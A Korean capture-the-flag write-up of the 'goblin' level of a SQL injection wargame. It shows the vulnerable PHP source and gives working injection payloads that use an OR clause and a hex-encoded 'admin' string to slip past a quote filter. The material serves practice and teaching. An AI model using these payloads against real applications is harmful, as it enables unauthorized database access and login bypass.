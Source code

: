 # Goblin Problem

![Goblin Image](../image/goblin_web_page.png)

### hint

__no 컬럼에 브루트포싱__

또는

__hex__

### los rubiya problem Script

```php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~"); 
  if(preg_match('/\'|\"|\`/i', $_GET[no])) exit("No Quotes ~_~"); 
  $query = "select id from prob_goblin where id='guest' and no={$_GET[no]}"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("goblin");
  highlight_file(__FILE__); 
?>
```

### 핵심

```php
$query = "select id from prob_goblin where id='guest' and no={$_GET[no]}";

if($result['id']) echo "<h2>Hello {$result[id]}</h2>";

if($result['id'] == 'admin') solve("goblin");
```

Goblin 문제는 no의 조건을 만족시키거나 or 로 새로운 id 를 조건으로 걸면은 되고

대신 출력되는 id 가 admin 되게 만졸할 수 있는 쿼리를 만들면 된다.

<details>
<summary>Payload</summary>
<div markdown="1">

```sql
?no=0%20or%20no=2
> select id from prob_goblin where id='guest' and no=0 or no=2

?no=0%20or%20id=0x61646D696E
> select id from prob_goblin where id='guest' and no=0 or id=0x61646D696E

```

테스트로 no 가 무슨 역할인지 아무런 값을 넣다보면

guest 는 1 이고
admin 는 2 으로 데이터가 들어있는것을 확인할 수 있다.

그리고 0x61646D696E 는 admin 과 같다. '0x61646D696E' 한다면 0x...도 헥스가아닌 문자열로 인식하기때문에

hex 로 인식하면서 admin으로 변환이 되는것이다.

</div>
</details>
